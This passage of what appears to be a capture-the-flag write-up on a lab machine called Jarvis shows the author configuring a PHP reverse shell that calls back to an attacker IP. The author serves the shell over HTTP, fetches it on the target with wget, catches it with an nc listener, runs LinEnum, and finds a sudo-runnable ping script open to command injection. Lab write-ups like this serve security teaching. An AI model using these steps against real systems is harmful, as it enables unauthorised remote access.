 {% highlight bash linenos %}
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.29';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
{% endhighlight %}

Once I had the reverse shell configured, I used a python simple web server to host this reverse shell:

% highlight bash linenos %}
python -m SimpleHTTPServer 80
{% endhighlight %}

Then, over on Jarvis' interactive shell I had, used wget to download my hosted reverse shell. The -O option tells wget to output the file once downloaded.

{% highlight bash linenos %}
wget http://<MY-KALI-IP>/php-reverse-shell.php -O php-reverse-shell.php
{% endhighlight %}

Then, on my Kali, setup a nc listener that the php-reverse-shell connects to. With nc, I used the listener option (-l), the verbose option (-v), and the port option (-p) to designate a port to listen on:

{% highlight bash linenos %}
nc -lvp 1337
{% endhighlight %}

And with that, I had a reverse shell connected back to my Kali box from Jarvis. From here, I used wget to download and run (the first thing I always run on a Linux machine) linenum.sh for Linux enumeration. If you have never used it, it can be found on GitHub (https://github.com/rebootuser/LinEnum). After linen ran, and checking the results, I found that as the user I was logged in as (pepper) I had access to sudo. I completed this with the -l option. From sudo man page, this option "If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user":

{% highlight bash linenos %}
sudo -l

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p 127.0.0.1;
{% endhighlight %}

I headed over, and looked at the python script I had access to run with sudo rights. Looking through the code, there is a function declaration that calls ping to run:

{% highlight bash linenos %}
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
{% endhighlight %}

